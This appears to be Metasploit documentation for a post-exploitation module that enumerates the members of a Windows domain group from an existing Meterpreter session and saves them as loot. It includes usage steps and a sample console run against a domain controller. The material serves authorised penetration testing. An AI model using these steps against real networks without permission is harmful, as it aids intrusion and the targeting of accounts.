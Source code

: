 ## Vulnerable Application

This module extracts user accounts from the specified domain group
and stores the results in the loot. It will also verify if session
account is in the group. Data is stored in loot in a format that
is compatible with the `token_hunter` plugin. This module must be
run on a session running as a domain user.

## Verification Steps

1. Start msfconsole
1. Get a session on a Windows target which is joined to a domain
1. Do: `use post/windows/gather/enum_domain_group_users`
1. Do: `set session [#]`
1. Do: `set group [group]`
1. Do: `run`
1. You should get the domain members for the group.

## Options

### Group

The group to enumerate.

## Scenarios

### Windows 2012 DC

```
msf6 post(windows/gather/enum_domain_group_users) > use post/windows/gather/enum_domain_group_users 
msf6 post(windows/gather/enum_domain_group_users) > sessions -i 6
[*] Starting interaction with 6...

meterpreter > sysinfo
Computer        : DC1
OS              : Windows 2012 (6.2 Build 9200).
Architecture    : x64
System Language : en_US
Domain          : hoodiecola
Logged On Users : 4
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 6...
msf6 post(windows/gather/enum_domain_group_users) > set session 6
session => 6
msf6 post(windows/gather/enum_domain_group_users) > set group finance
group => finance
msf6 post(windows/gather/enum_domain_group_users) > run

[*] Running module against DC1
[-] Post aborted due to failure: unknown: No members found for 'hoodiecola\finance' group.
[*] Post module execution completed
msf6 post(windows/gather/enum_domain_group_users) > set group "quality control"
group => quality control
msf6 post(windows/gather/enum_domain_group_users) > run

[*] Running module against DC1 (1.1.1.1)
[*] Found 3 users in 'hoodiecola\quality control' group.
[*]     hoodiecola\rachel
[*]     hoodiecola\lisa
[*]     hoodiecola\charles
[*] Current session running as NT AUTHORITY\SYSTEM is not a member of quality control
[+] User list stored in /root/.msf4/loot/20201011184812_default_1.1.1.1_domain.group.mem_339475.txt
[*] Post module execution completed
```
